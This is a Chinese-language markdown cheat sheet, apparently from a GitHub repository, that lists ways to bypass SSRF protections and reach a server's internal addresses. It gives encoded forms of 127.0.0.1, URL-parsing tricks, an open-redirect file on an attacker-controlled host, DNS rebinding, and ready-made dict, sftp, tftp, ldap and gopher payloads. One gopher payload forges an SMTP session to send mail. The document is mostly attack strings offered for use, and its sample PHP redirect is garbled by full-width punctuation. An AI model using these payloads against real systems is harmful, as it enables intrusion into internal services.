






## 使用封闭式字母数字绕过

封闭式字母数字是一个Unicode块，其中包含圆形，支架或其他非封闭外壳内的字母数字印刷符号，或以句号结尾。系统支持封闭式字母数字的解析。

下图为由封闭式字母数字构造的127.0.0.1地址，可以看到被正常解析。



## 使用中文句号绕过

如果`.`符号被禁用，可以尝试用`。`代替`.`



## 使用十六进制编码绕过

```
127.0.0.1 -> 0x7F000001
127.0.0.1 -> 0x7f.0x0.0x0.0x1
```






## 使用八进制编码绕过

```
127.0.0.1 -> 0177.0.0.01
```



## 使用十进制绕过

```
127.0.0.1 -> 2130706433
```


## 使用特殊地址绕过

```
http://0/
```



## 使用IPv6地址绕过

使用IPv6地址而不是IPv4地址，因为服务器可能尚未针对IPv6实施而实施了针对IPv4的保护机制。

## URL地址过滤绕过

`http://www.baidu.com@10.10.10.10` 与 `http://10.10.10.10` 请求是相同的。

## 使用短域名绕过

申请短域名指向内网地址：

```
http://192.168.31.1 -> http://suo.im/1QLXa2
```

## 使用xip.io绕过


## 使用重定向漏洞绕过

使服务器请求你所控制的URL重定向到黑名单地址。例如可以在自己可控的Web服务器上托管如下内容的文件：

```
<？php header（“location：http：//127.0.0.1”）;？>
```

假设此文件位于`http://attakcer.com/redirect.php`，这样当你的目标服务器请求`http://attakcer.com/redirect.php`，目标服务器实际上被重定向到`http://127.0.0.1`，这是一个受限制的内部地址。

##  使用DNS欺骗绕过

修改可控的域的A记录或者AAAA记录，并使其指向受害者网络的内部地址。例如，假设`http://attacker.com`是你可控的子域名。你可以创建自定义主机名到IP地址映射，使得`http://subdomain.attacker.com`解析到`127.0.0.1`。现在当目标服务器请求`http://attacker.com`，它会认为你的域位于`127.0.0.1`，并从改地址请求数据。

也可以利用**DNS投毒**去修改DNS服务器的域名映射记录。

## 利用协议绕过

```
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

## 其他

更多的绕过姿势可以参考：

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Request Forgery)
